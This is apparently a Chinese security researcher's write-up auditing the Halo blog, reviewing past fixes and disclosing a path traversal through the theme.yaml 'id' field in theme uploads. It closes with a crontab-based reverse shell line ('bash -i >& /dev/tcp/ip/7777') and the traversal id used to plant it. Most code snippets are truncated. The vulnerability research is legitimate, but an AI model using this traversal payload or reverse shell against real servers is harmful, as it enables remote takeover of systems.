



内部竞赛拿 Halo博客 来审计，翻了下关闭的issue发现刚被审计了一波，漏洞也挖得差不多了，稍微有点气馁但还是打算看一下，因为搭Halo系统实在太简单，直接java -jar起服务就可以了，为halo点赞！
分析思路
历史漏洞出发
先翻一翻issue中之前提过的漏洞，从历史漏洞出发，看看漏洞是否真的完全修复，存不存在可绕过的点，顺便也了解一下系统的薄弱点。
目录穿越
看到最多的还是目录穿越，zip解压包含有../../../的文件、以及各种上传删除文件操作过程中没有对../做过滤导致的后台任意文件上传、任意文件删除。
拿文件删除例子作为分析
1 |
|
主要加了checkDirectoryTraversal来处理目录穿越
1 | public static void checkDirectoryTraversal(@NonNull Path parentPath, @NonNull Path pathToCheck) { |
这里对目录字符串做归一化处理后判断路径前缀是否为parentPath（halo存放文件目录），这直接校验路径前缀的话没有任何办法去绕，又翻了下涉及文件操作的函数都添加了这个函数，感觉目录穿越多半凉了。
XXE
这里使用了SAXReader解析xml文件，看到getRootElement有几个重写的函数，只有Element getRootElement(FileInputStream fileInputStream)添加了saxReader.setFeature
1 | public static Element getRootElement(FileInputStream fileInputStream) { |
查看函数调用也只有一个被调用了，没辙。
SSTI
比较少在java系统中看见SSTI的漏洞，在系统中有编辑主题文件的功能，可以看到这里是使用了第三方插件Freemarker。Google一下确实是有爆过SSTI漏洞，但是修复过程也很简单。添加一个配置项configuration.setNewBuiltinClassResolver(TemplateClassResolver.SAFER_RESOLVER);就OK了。
在WebMvcAutoConfiguration.java文件下freemarkerConfig函数已经做了对应的修复。
XSS
xss就不说了，一是后台XSS没啥意思，二是个人感觉XSS黑盒测试可能比较直接，三是XSS太多了，防不胜防。
###系统薄弱点
个人感觉可能还有存在目录穿越的漏洞点，因为后台实在太多涉及文件操作的功能了。比如添加新的博客主题、备份文件等。
接着针对每个功能点，从路由出发跟了一下，但是都不了了之，大部分最后还是遇到了checkDirectoryTraversal。
另外还看了一下是否有ssrf，在上传博客主题这里，除了本地上传，还可以指定git地址或者一个zip后缀的地址
1 | if (StringUtils.endsWithIgnoreCase(uri, ".zip")) { |
重点跟了downloadZipAndUnZip这个流程
1 | private void downloadZipAndUnzip(@NonNull String zipUrl, @NonNull Path targetPath) throws IOException { |
这里下载过程用了org.springframework.web.client.RestTemplate，只支持HTTP协议，没想到太多可利用的点。
突破口
值得注意的是，上传博客主题这一功能。虽然文件上传等操作是限制得死死的，但是zip上传之后会有解压过程。正常的解压目录穿越也做了限制，没法直接穿越。但是对于theme.yaml文件字段的获取和利用呢？

对应的theme.yaml文件格式
1 | id: test |
上传的zip会解压在halo目录下的theme文件夹中，无意的发现目录名字似乎是和theme.yaml里面定义的id一样。因此直接尝试一下修改id为../../../test。但是试了几次发现无法正常上传，如果id属性值前面有../的话无法正常上传。
看了下源码，从路由一直往下看直到ThemeServiceImple.java发现add函数
1 |
|
themeWorkDir.resolve(tmpThemeProperty.getId());直接获取theme.yml下的id拼接成targetThemePath存放这个zip包解压下的文件！
但是为什么刚刚尝试的时候不行呢，试一下把../放在test后面，构造id: test/../../../abc在前两层发现了abc目录，并且目录下的文件正好就是zip包解压的文件，这说明成功目录穿越上传了文件！

GetShell
因为这里是可以直接创建文件夹，只要有权限是可以直接复写crontab文件直接反弹shell
在centOS下root起一个Halo，theme.yaml下构造id: abc/../../../../../var/spool/cron，zip包含一个root文件* * * * * bash -i >& /dev/tcp/ip/7777 0>&1，上传后在/var/spool/cron/root创建root文件，外网服务器起一个监听，过一会反弹成功了

总结
下次再写吧，下次一定